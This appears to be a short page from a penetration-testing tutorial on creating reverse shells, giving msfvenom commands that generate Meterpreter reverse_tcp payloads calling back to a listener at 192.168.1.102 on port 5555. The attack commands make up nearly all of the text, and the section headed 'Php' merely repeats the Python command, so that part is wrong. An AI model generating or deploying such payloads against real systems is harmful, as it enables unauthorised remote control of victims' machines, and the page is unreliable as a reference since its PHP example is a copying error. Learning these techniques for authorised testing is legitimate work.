 # Creating reverse-shells


In the chapter Basics I linked to some reverse shells. Another way to create reverse shells is by using msfvenom.


## Python

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.102 LPORT=5555 > python_meterpter_reverse_tcp.py
```

## Php

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.102 LPORT=5555 > python_meterpter_reverse_tcp.py
```